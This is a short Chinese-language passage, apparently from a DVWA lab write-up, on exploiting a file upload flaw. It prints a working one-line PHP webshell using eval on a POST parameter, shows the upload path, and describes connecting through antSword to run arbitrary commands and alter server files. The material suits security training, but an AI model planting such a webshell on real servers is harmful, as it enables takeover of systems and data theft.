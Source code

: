 文件上传漏洞的利用是有限制条件的,首先当然是要能够成功上传木马文件,其次上传文件必须能够被执行,最后就是上传文件的路径必须可知.不幸的是,这里三个条件全都满足.

上传文件 shell.php(一句话木马)
```php
<?php @eval($_POST['ant']); ?>
```

上传成功,并且返回了上传路径

![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa24.png)

注:这里推荐用开源的 [antSword](https://github.com/AntSwordProject/antSword) 连接webshell,安装步骤这里略

`http://<IP地址!!!>/dvwa/hackable/uploads/shell.php`

![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa25.png)

然后 antSword 就会通过向服务器发送包含 ant 参数的 post 请求,在服务器上执行任意命令,获取 webshell 权限.可以下载、修改服务器的所有文件.
